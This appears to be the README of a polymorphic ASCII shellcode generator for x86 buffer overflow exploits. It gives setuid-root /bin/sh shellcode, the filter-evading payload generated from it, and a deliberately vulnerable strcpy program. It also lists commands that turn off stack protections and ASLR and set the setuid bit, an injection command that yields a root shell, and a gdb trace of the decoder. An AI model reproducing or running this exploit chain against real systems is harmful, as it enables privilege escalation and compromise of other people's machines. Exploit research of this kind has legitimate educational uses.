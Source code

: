 # PolyAsciiShellGen (x86, 32 bits)
## Polymorphic Ascii Shellcode Generator to bypass MSB data filters for buffer overflow exploits on Intel platforms.

More information about this technique on the Riley Eller "caezar" publication:

[http://julianor.tripod.com/bc/bypass-msb.txt](http://julianor.tripod.com/bc/bypass-msb.txt)


Compile the PolyAsciiShellGen program:

<code>$ make && make clean</code>

Usage:

```
# ./PolyAsciiShellGen
usage: PolyAsciiShellGen <esp offset> <nop sleed factor N * 4 NOPS> <shellcode "\xOP\xOP"...>

```

Example with a setuid(0) and execve(/bin//sh,0,0) shellcode:
```
# ./PolyAsciiShellGen -270 10 "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\xa4\xcd\x80\x31\xc0\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80"
TX-KKKK-KKKK-xjiiP\%0000%AAAA-9%%%-GJJJP-hhNh-th3%-Q6-5P-yyyZ-yZy6-L6---2-8-P-7KKd-%Kdz-%RkzP-xxxx-GGGx-0AFiP-OOOO-jOwO-iaraP-NN%N-a%%a-q44tP-%SS0-%SL5-7uC%P-FkFF-9pUhP-XXXX-XXXX-PXOFP-AAAj-0w2j-0w-vPPPPPPPPPP

```

Injection in a vulnerable program in a stack buffer of 512 bytes:
```
#include <string.h>
#include <stdio.h>

int foo(char *str)
{
	char buffer[512];
	printf("[buffer addr] 0x%x: %s\n\n", &buffer, str);
	strcpy(buffer, str);
	return 0;
}


int main(int argc, char *argv[])
{
	if(argc != 2)
		exit(0);
	foo(argv[1]);
}

```

Compile the vulnerable program without security memory protections against the stack buffer overflow exploits:
```
#gcc -fno-pie -fno-stack-protector -z execstack -m32 -g vuln.c -o vuln
```

Set the program with the set-uid root bit, for use all the funtionalities of the shellcode:
```
#chown root:users vuln
#chmod u+s vuln 
#ls -l vuln
-rwsr-xr-x 1 root users 7068 Jul  6 02:37 vuln
```

Deactivate the ASLR:
```
#echo 0 > /proc/sys/kernel/randomize_va_space
```

Injecte the shellcode on the buffer and write the return address:
```
$./vuln "TX-KKKK-KKKK-xjiiP\%0000%AAAA-9%%%-GJJJP-hhNh-th3%-Q6-5P-yyyZ-yZy6-L6---2-8-P-7KKd-%Kdz-%RkzP-xxxx-GGGx-0AFiP-OOOO-jOwO-iaraP-NN%N-a%%a-q44tP-%SS0-%SL5-7uC%P-FkFF-9pUhP-XXXX-XXXX-PXOFP-AAAj-0w2j-0w-vPPPPPPPPPP"$(perl -e 'print "\xd0\xd6\xff\xff"x80')

[buffer addr] 0xffffd6d0: TX-KKKK-KKKK-xjiiP\%0000%AAAA-9%%%-GJJJP-hhNh-th3%-Q6-5P-yyyZ-yZy6-L6---2-8-P-7KKd-%Kdz-%RkzP-xxxx-GGGx-0AFiP-OOOO-jOwO-iaraP-NN%N-a%%a-q44tP-%SS0-%SL5-7uC%P-FkFF-9pUhP-XXXX-XXXX-PXOFP-AAAj-0w2j-0w-vPPPPPPPPPP��������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������
sh-4.3#whoami
root
```

The debugger view:
```
$gdb -q vuln
(gdb) l
32		char buffer[512];
33	
34		printf("[buffer addr] 0x%x %s\n", &buffer, str);
35	
36		strcpy(buffer, str);
37	
38		return 0;
39	}
40	
41	
(gdb) b 38
Breakpoint 1 at 0x8048493: file vuln.c, line 38.
(gdb)  r "TX-KKKK-KKKK-xjiiP\%0000%AAAA-9%%%-GJJJP-hhNh-th3%-Q6-5P-yyyZ-yZy6-L6---2-8-P-7KKd-%Kdz-%RkzP-xxxx-GGGx-0AFiP-OOOO-jOwO-iaraP-NN%N-a%%a-q44tP-%SS0-%SL5-7uC%P-FkFF-9pUhP-XXXX-XXXX-PXOFP-AAAj-0w2j-0w-vPPPPPPPPP"$(perl -e 'print "\x70\xd6\xff\xff"x80')

...

Breakpoint 1, foo (str=0xffffda00 "") at vuln.c:38
38		return 0;
(gdb) p &buffer
$1 = (char (*)[512]) 0xffffd670
(gdb) nexti
0x08048499	39	}
(gdb) nexti
0xffffd670 in ?? ()
(gdb) p $esp - $eip
$3 = 528
(gdb) x/61i $eip
=> 0xffffd670:	push   esp
   0xffffd671:	pop    eax
   0xffffd672:	sub    eax,0x4b4b4b4b
   0xffffd677:	sub    eax,0x4b4b4b4b
   0xffffd67c:	sub    eax,0x69696a78
   0xffffd681:	push   eax
   0xffffd682:	pop    esp
   0xffffd683:	and    eax,0x30303030
   0xffffd688:	and    eax,0x41414141
   0xffffd68d:	sub    eax,0x25252539
   0xffffd692:	sub    eax,0x4a4a4a47
   0xffffd697:	push   eax
   0xffffd698:	sub    eax,0x684e6868
   0xffffd69d:	sub    eax,0x25336874
   0xffffd6a2:	sub    eax,0x352d3651
   0xffffd6a7:	push   eax
   0xffffd6a8:	sub    eax,0x5a797979
   0xffffd6ad:	sub    eax,0x36795a79
   0xffffd6b2:	sub    eax,0x2d2d364c
   0xffffd6b7:	sub    eax,0x2d382d32
   0xffffd6bc:	push   eax
   0xffffd6bd:	sub    eax,0x644b4b37
   0xffffd6c2:	sub    eax,0x7a644b25
   0xffffd6c7:	sub    eax,0x7a6b5225
   0xffffd6cc:	push   eax
   0xffffd6cd:	sub    eax,0x78787878
   0xffffd6d2:	sub    eax,0x78474747
   0xffffd6d7:	sub    eax,0x69464130
   0xffffd6dc:	push   eax
   0xffffd6dd:	sub    eax,0x4f4f4f4f
   0xffffd6e2:	sub    eax,0x4f774f6a
   0xffffd6e7:	sub    eax,0x61726169
   0xffffd6ec:	push   eax
   0xffffd6ed:	sub    eax,0x4e254e4e
   0xffffd6f2:	sub    eax,0x61252561
   0xffffd6f7:	sub    eax,0x74343471
   0xffffd6fc:	push   eax
   0xffffd6fd:	sub    eax,0x30535325
   0xffffd702:	sub    eax,0x354c5325
   0xffffd707:	sub    eax,0x25437537
   0xffffd70c:	push   eax
   0xffffd70d:	sub    eax,0x46466b46
   0xffffd712:	sub    eax,0x68557039
   0xffffd717:	push   eax
   0xffffd718:	sub    eax,0x58585858
   0xffffd71d:	sub    eax,0x58585858
   0xffffd722:	sub    eax,0x464f5850
   0xffffd727:	push   eax
   0xffffd728:	sub    eax,0x6a414141
   0xffffd72d:	sub    eax,0x6a327730
   0xffffd732:	sub    eax,0x762d7730
   0xffffd737:	push   eax
   0xffffd738:	push   eax
   0xffffd739:	push   eax
   0xffffd73a:	push   eax
   0xffffd73b:	push   eax
   0xffffd73c:	push   eax
   0xffffd73d:	push   eax
   0xffffd73e:	push   eax
   0xffffd73f:	push   eax
   0xffffd740:  push   eax
(gdb)

```


have fun !! 

